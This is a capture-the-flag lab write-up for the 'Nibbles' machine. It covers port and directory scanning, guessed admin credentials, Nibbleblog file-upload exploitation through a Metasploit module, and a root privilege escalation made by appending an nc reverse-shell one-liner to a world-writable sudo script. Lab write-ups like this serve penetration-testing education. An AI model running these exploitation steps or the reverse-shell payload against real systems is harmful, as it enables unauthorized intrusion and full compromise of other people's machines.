

# Nibbles (easy)

### Recon

---

**Finding open ports**

I started the challenge by performing a port scan

```bash
sudo nmap -sC -sV -A -p- -T4 10.10.10.75
```



I can see that there are two open ports: 80 and 22.

- Port 22 is an OpenSSH server.
- Port 80 is an Apache web server.

**Searching source code**

For me, this looks like a health check page.


So, by instinct, I just check the source code. LFG,  i found a new directory.


**Enumerating directory**

Then, I enumerated directories and pages using Gobuster.

```bash
gobuster dir -u http://10.10.10.75/nibbleblog/ --wordlist /usr/share/dirb/wordlists/common.txt
```


**Discover the Technology Stack**
I quickly check the technology stack using the command: `whatweb 10.10.10.75`


So i did a quick google search `Nibbleblog cve` it showed that unrestricted file upload vulnerability in the My Image plugin in Nibbleblog before 4.0.5 allows remote administrators to execute arbitrary code by uploading a file with an executable extension

**Identifying the Nibbleblog Version in Use**

I can confirm this by reading at `http:10.10.10.75/nibbleblog/README`


**Retrieving Admin Credentials for Login via admin.php**

- Username: I manage to find the username by checking [`http://10.10.10.75/nibbleblog/content/private/users.xml`](http://10.10.10.75/nibbleblog/content/private/users.xml) (username = admin)


- Password: The password was definitely harder to find. I searched through all the files and found a hint suggesting that the password might be in the title. (password: nibbles)
    
    
    

### Applying CVE

---

### Testing cve

Since I was aware of the CVE, I went straight to Plugins and configured `MyImage`.


So, I tested the functionality by creating a `test.php` file containing

```bash
<?php phpinfo(); ?>
```


**Finding where the file is uploaded**

So i went back to search up all the directories and i found out that the file was uploaded at [`http://10.10.10.75//nibbleblog/content/private/plugins/my_image/`](http://10.10.10.75//nibbleblog/content/private/plugins/my_image/)


LFG !!! We can see that the file is renamed to image.php


**Metasploit → Nibbler user**

I start msfconsole and I search for `search nibble`


Then `use exploit/multi/http/nibbleblog_file_upload` . Now we set PASSWORD, RHOSTS, RPORT, TARGETURI and USERNAME.

- use exploit/multi/http/nibbleblog_file_upload
- set RHOSTS 10.10.10.75
- set RPORT 80
- set USERNAME admin
- set PASSWORD nibbles
- set TARGETURI /nibbleblog/
- set LHOST [tun0 ip]
- set LPORT 4444
- exploit


NOW LF around and find out


**Privilege Escalation**

Currently we are under nibbler user privilege now we will try to escalate our privilege


I used the command `sudo -l` to display a list of commands that the current user is allowed to execute with `sudo`, as defined in the system's sudoers configuration.


The `sudo -l` output shows that the user `nibbler` can run `/home/nibbler/personal/stuff/monitor.sh` as `root` without needing a password (`NOPASSWD`). This is a potential security risk because:

1. **Writable Script**: If `monitor.sh` is writable by `nibbler`, it can be modified to include malicious commands, allowing privilege escalation.
2. **Command Injection**: If the script takes input without sanitization, it could allow executing arbitrary commands as `root`.

I unzip `personal.zip`


I then checked the permissions of [`monitor.sh`](http://monitor.sh/). The file is world-writable (w for owner, group, and others).


Then I  appended my shell to the end (I borrowed this payload from 0xdf) 

```bash
echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc [tun0] [nc port] > /tmp/f" >> [monitor.sh](http://monitor.sh/)
```

- **`rm /tmp/f;`**:
    - Removes any pre-existing `/tmp/f` to avoid conflicts.
- **`mkfifo /tmp/f;`**:
    - Creates `/tmp/f` as a named pipe.
- **`cat /tmp/f`**:
    - Reads data (commands from the attacker) coming through the named pipe.
- **`> /tmp/f`**:
    - Writes the output of the shell back into the pipe to be sent to the network (attacker's machine).


GG, we can find root flag in `/root` 

